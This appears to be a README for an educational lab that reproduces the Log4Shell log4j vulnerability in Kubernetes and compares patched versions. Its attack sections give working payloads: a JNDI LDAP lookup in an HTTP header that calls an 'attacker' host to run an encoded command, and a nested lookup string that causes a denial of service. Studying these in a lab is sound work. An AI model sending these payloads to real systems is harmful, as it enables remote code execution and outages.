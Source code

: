 # Showcase log4j vulnerability

This repo is for educational purposes. I do neither endorse nor encourage any mailicious use of this repo. It requires a Kubernetes environment to run the app and the tests.

Credits go to Eden Federman and Christophe Tafani-Dereeper, both their repos/posts gave me the inspiration and motivation for testing.

- https://medium.com/@edeNFed/patching-log4shell-in-one-command-without-downtime-using-ephemeral-containers-c69a9155ab1e
- https://github.com/christophetd/log4shell-vulnerable-app.git

`modified-files` contains the different changes for building the springboot app with different versions of log4j and different settings. You can apply these to your copy of `https://github.com/christophetd/log4shell-vulnerable-app.git` or use the images I have built for each step, as desciribed in `ops/manifests/deployment.yaml`

## Install

1. `kubectl create ns log4jpoc`
1. `kubectl -n log4jpoc apply -f ops/manifests`

and check the status: `kubectl -n log4jpoc get pods`

## Run the ldap attack

1. Run a curl container (as a replacement for a remote attacker): `kubectl -n log4jpoc run --rm -it client --image=curlimages/curl -- /bin/sh` 
1. Run the curl-command: `curl http://vulnerable-app:8080 -H 'X-Api-Version: ${jndi:ldap://attacker:1389/Basic/Command/Base64/cGtpbGwgamF2YQo=}'`

## Run the DoS attack

1. Run a curl container (as a replacement for a remote attacker): `kubectl -n log4jpoc run --rm -it client --image=curlimages/curl -- /bin/sh` 
1. `curl http://vulnerable-app:8080 -H 'X-Api-Version: ${${::-${::-$${::-j}}}}'`


## Results 

### With log4j 2.14.1

Applying the ldap attack causes the pod to crash:

```
$ kubectl -n pwnd get pods
NAME             READY   STATUS    RESTARTS   AGE
attacker         1/1     Running   0          13h
client           1/1     Running   0          58s
vulnerable-app   0/1     Error     1          12h
```

Applying the second attack causes an infinite loop:

```
2021-12-19 10:48:33,685 http-nio-8080-exec-1 ERROR An exception occurred processing Appender Console java.lang.IllegalStateException: Infinite loop in property interpolation of ::-${::-$${::-j}}: :
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.checkCyclicSubstitution(StrSubstitutor.java:1081)
```

### With log4j 2.16.0

Applying the ldap attack does not break the app anymore:

```
$ kubectl -n pwnd get pods
NAME             READY   STATUS    RESTARTS       AGE
attacker         1/1     Running   0              13h
vulnerable-app   1/1     Running   1 (114s ago)   10m
client           1/1     Running   0              92s
```

Applying the second attack does not cause the infinite loop anymore either, even with the added PatternLayout. See here for more details: https://issues.apache.org/jira/plugins/servlet/mobile#issue/LOG4J2-3230

### With log4j 2.17.0
